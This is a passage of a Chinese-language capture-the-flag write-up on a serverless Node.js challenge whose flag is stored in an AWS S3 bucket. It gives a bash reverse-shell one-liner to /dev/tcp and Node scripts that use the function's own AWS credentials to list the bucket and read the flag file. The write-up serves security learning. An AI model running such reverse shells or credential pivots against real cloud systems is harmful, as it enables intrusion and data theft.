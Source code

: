 ```
    module.exports.handler = serverless(app, `{`
        binary: ['image/*', 'image/png', 'image/jpeg']
    `}`);
`}`else`{`
    app.listen(3000,()=&gt;`{`
        console.log(`listening 3000......`);
    `}`);
`}`N
```

后端接受参数后打包zip，然后传到了AWS s3里

因为服务器中啥也没找到，故猜测flag不在web服务器里，在static.l0ca1.xyz里，

也就是AWS s3里，那就要获取

```
const s3Parme = `{`
    // accessKeyId:"xxxxxxxxxxxxxxxx",
    // secretAccessKey:"xxxxxxxxxxxxxxxxxxx",
`}`
```

记得AWS内网有地方可以看这个key

[https://www.freebuf.com/articles/web/135313.html](https://www.freebuf.com/articles/web/135313.html)<br>[http://www.52bug.cn/hkjs/5749.html](http://www.52bug.cn/hkjs/5749.html)<br>[https://n0j.github.io/2017/10/02/aws-s3-ctf.html](https://n0j.github.io/2017/10/02/aws-s3-ctf.html)<br>[https://www.jianshu.com/p/d34bbfc951fa](https://www.jianshu.com/p/d34bbfc951fa)<br>[https://www.freebuf.com/articles/system/129667.html](https://www.freebuf.com/articles/system/129667.html)

/var/task/.git/

[![](https://p5.ssl.qhimg.com/t01a4928d1136297901.png)](https://p5.ssl.qhimg.com/t01a4928d1136297901.png)

[![](https://p0.ssl.qhimg.com/t01c151cb0ccf8c5165.png)](https://p0.ssl.qhimg.com/t01c151cb0ccf8c5165.png)

反弹shell bash -i &gt;&amp; /dev/tcp//6666 0&gt;&amp; 几秒钟就会断开，但是时间够了

接着服务器上 node -e运行js，带着凭据直接访问s3，类似ssrf

```
const AWS = require("aws-sdk");
const s3 = new AWS.S3();
const bkt = s3.listObjects(`{`Bucket: "static.l0ca1.xyz"`}`);
bkt.promise().then((data)=&gt;`{`
        console.log(data)
        `}`
    );
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01fecf5dab7252a6c2.png)

```
const AWS = require("aws-sdk");
const s3 = new AWS.S3();
const flag = s3.getObject(`{`Bucket: "static.l0ca1.xyz", Key: "flaaaaaaaaag/flaaaag.txt"`}`);
flag.promise().then((data)=&gt;`{`
    console.log(data)
`}`
);
```
